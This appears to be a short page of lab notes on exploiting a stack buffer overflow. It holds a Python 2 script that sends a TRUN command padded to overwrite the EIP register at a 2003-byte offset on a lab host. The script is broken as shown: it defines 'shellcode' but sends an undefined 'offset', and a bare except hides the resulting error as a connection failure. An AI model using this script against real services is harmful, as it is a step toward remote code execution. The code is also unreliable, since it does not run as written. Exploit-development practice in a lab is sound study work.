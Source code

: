 Overwrite the EIP

    Found at 2003 byes before the EIP and the EIP is 4 bytes long  

        Overwrites the EIP with B's not A's so that we know we got it right 

    #!/usr/bin/python 

    import sys, socket 

    from time import sleep 

      

    shellcode = "A" * 2003 + "B" * 4 

      

      

    try: 

            s=socket.socket(socket.AF_INET,socket.SOCK_STREAM) 

            s.connect(('10.0.2.4',9999)) 

            s.send(('TRUN /.:/' + offset)) 

            s.close() 

      

    except: 

            print "Error connecting to server " 

            sys.exit() 


![GetImage.png](../../_resources/6b3a62fe5745437f8e4fc1d525d1e601.png)


 